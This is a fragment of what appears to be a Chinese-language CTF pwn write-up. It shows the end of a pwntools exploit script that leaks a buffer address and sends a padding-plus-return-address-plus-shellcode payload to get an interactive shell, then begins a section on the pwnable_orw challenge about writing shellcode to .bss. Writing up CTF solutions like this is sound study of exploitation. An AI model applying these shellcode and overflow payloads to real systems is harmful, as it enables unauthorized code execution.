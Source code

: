 ```python
    buf_addr = u32(io.recv(4))
    print('buf_addr->',hex(buf_addr))
    return 0

def pwn():
    global shellcode
    payload = padding+p32(buf_addr+0x14)+shellcode
    io.send(payload)
    return 0

leak()
pwn()
io.interactive()
```

>需要注意的是,这里`buf`空间长度不足,所以需要另外找一个`shellcode`而不能使用直接生成的`shellcode`,直接生成的`shellcode`长度会在$21~60$之间

# pwnable_orw

- `shellcraft`方法的使用

![image-20240125220416158](../assets/img/old_imgs/image-20240125220416158.png)

> 逻辑很简单,`shellcode`存在于`.bss`段上,写入`shellcode`,执行`shellcode`

![image-20240125220513324](../assets/img/old_imgs/image-20240125220513324.png)
